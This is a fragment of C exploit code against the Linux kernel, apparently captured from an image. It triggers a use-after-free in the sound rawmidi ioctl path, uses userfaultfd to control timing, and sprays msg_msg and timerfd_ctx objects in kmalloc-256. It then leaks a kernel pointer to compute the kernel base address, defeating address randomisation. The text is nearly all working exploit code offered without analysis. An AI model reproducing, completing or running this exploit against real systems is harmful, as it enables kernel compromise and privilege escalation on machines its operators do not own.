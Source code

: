 ```c
    args.addr = addr + PAGE_SIZE - 0x18;
    args.fd= fd;

    /* Blocking before object created by size 256 in userfault */
    pthread_create(&thread[1], NULL, (void *) trigger_userfaultfd, &args);
    puts("[+] Triggering userfaultfd");

    /* Deleting before object created by size 256 generating an UAF */
    srp.buffer_size = 250;
    err = ioctl(fd, SNDRV_RAWMIDI_IOCTL_PARAMS, &srp);

    puts("[+] Deleting before object created by size 256 generating UAF");

    if (err < 0)
    {
        perror("[-] ioctl");
        exit(0);	
    }

    /* send_msg 'A' */
    send_msg(qid[0], 0xf8, 'A');

    puts("[+] Allocate msg_msg in kmalloc-256");

    printf("[*] Waiting for userfaultd to finish ..\n");
    release_page_fault = true;

    /* spray timerfd_ctx in kmalloc-256 */
    for(int i = 256 / 2; i < 256; i++)
    {
        tfd[i] = timerfd_create(CLOCK_REALTIME, 0);
        timerfd_settime(tfd[i], 0, &its, 0);
    }

    puts("[+] Allocate timerfd_ctx in kmalloc-256");

    while(release_page_fault == true);
    printf("[+] Page fault lock released\n");

    uint64_t *leak = recv_msg(qid[0], 0x2000);

    // hexdump(leak, 0x2000);

    unsigned long timerfd_tmrproc =  *(leak + (0x200 / sizeof(uint64_t)));
    unsigned long kernel_base = timerfd_tmrproc - 0x2201f0;

    printf("[+] timerfd_tmrproc addr : 0x%lx\n", timerfd_tmrproc);
    printf("[+] kernel_base addr : 0x%lx\n", kernel_base);
```

<br/>
